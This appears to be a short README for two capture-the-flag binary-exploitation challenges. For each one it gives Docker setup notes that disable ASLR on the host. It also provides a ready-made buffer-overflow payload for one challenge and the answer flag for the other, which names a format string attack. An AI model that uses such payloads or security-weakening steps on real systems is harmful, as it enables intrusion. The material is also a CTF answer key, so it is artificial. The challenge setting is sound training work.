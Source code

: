 ## Docker Run Commands

### Bin Exp 2
#### Overflowing Buckets
* Run ```sudo sysctl -w kernel.randomize_va_space=0``` on the server/docker-host then run the docker```
* Payload ```python -c "print '\x41'*24 + '\xfd\x55\x55\x56'"```

### Bin Exp 1
#### Read the unreadable
* Run ```sudo sysctl -w kernel.randomize_va_space=0``` on the server/docker-host then run the docker```
* flag OSD_CTF{f0rm4T_sTr1nG_4ttacK_l333t}
